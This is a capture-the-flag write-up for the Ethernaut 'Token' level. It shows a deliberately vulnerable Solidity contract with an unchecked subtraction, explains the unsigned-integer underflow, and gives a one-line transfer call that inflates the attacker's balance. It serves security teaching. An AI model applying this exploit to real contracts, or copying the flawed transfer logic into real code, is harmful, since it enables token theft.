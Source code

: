 # Ethernaut: 5. Token

> The goal of this level is for you to hack the basic token contract below.
>
> You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

**Objective of CTF:**

- Earn a lot of tokens (say at least 100x more).

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Token {
  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    unchecked {
      // added uncheck here because this was originally in solidity ^0.6.0
      require(balances[msg.sender] - _value >= 0);
      balances[msg.sender] -= _value;
      balances[_to] += _value;
    }
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

This attack makes use of the integer overflow or integer underflow exploit. In fact, the statement `require(balances[msg.sender] - _value >= 0);` is completely wrong because the calculation is happening on unsigned integers! Of course, they will always be greater than or equal to 0.

We can't exploit the bug by sending money to ourselves, because the two lines will cancel out:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

Instead, we can just send some tokens to zero address `0x0000000000000000000000000000000000000000`. We have 20 tokens, so lets send 21 tokens to the zero address:

```js
await contract.transfer('0x0000000000000000000000000000000000000000', 21);
```

Once this transaction is mined, we are basically rich in whatever this token is (we have 115792089237316195423570985008687907853269984665640564039457584007913129639935 of it to be exact). No need to worry about the burnt 21 tokens back there :)

If you REALLY worry about burning tokens, just create a contract and transfer there instead!
